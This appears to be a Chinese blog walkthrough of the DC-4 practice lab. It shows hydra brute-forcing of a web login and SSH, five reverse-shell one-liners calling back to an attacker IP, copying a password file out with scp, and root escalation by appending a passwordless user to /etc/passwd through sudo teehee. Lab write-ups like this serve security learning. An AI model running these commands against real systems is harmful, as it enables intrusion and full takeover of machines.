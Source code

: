```yaml
---
layout: post
title: DC-4
subtitle: DC-4
date: 2025-07-10 10:32
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. 信息搜集

扫描网段发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/Mpx57R.png)

nmap扫描端口，发现http和ssh端口

![image.png](https://img.ghostliner.top/tisEXh.png)

访问网站尝试登录失败，目录扫描无重要内容，尝试爆破

## 2. 渗透测试

### 2.1. 登录密码爆破

bp抓包查看数据格式，可用bp爆破或 `hydra` 爆破

![image.png](https://img.ghostliner.top/xWvdSB.png)

使用 `hydra` 爆破

```shell
hydra 192.168.163.135 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image.png](https://img.ghostliner.top/g5jGyg.png)

获取到密码：happy，登录发现命令执行页面，抓包测试发现存在漏洞

![image.png](https://img.ghostliner.top/qvPHb3.png)

![image.png](https://img.ghostliner.top/Xv5uzD.png)

### 2.2. 反弹shell

上传反弹shell命令

```shell
nc -nv 192.168.163.135 -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 > /tmp/f
bash -i >& /dev/tcp/192.168.163.132/4444 0>&1
ncat -nv 192.168.163.132 4444 -e /bin/bash
socat TCP:192.168.163.132:4444 EXEC:/bin/bash
```

连接成功

![image.png](https://img.ghostliner.top/6oyW71.png)

查看home目录，发现jim用户下 `old-passwords.bak`文件

![image.png](https://img.ghostliner.top/uSkXiV.png)

直接复制或使用scp传给kali，kali需要开启SSH服务，允许密码登录

```shell
scp -P 2233 old-passwords.bak kali@192.168.163.132:~
# -P 2233 指定SSH端口2233
# :~ 将文件放到目标机用户家目录
```

### 2.3. SSH爆破

使用 `hydra` 爆破SSH

```shell
hydra 192.168.163.135 -l jim -P old-passwords.bak ssh
```

![image.png](https://img.ghostliner.top/g6A9al.png)

密码：jibril04，`su jim`切换用户成功，查看mbox文件发现是邮件，查找是否有其他邮件

![image.png](https://img.ghostliner.top/71gQ68.png)

在 `/var/mail` 目录下发现邮件，其中有charles发送给jim的密码邮件

用户名：`charles` <mark>注意是小写</mark>
密码：  `^xHhA&hvim0y`

![image.png](https://img.ghostliner.top/g8ZxjX.png)

`su charles` 切换用户成功后，查看用户目录下无内容，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/NMUSqW.png)

### 2.4. 提权

teehee提权

```shell
echo "shell::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su shell
```

![image.png](https://img.ghostliner.top/2Ha8ej.png)
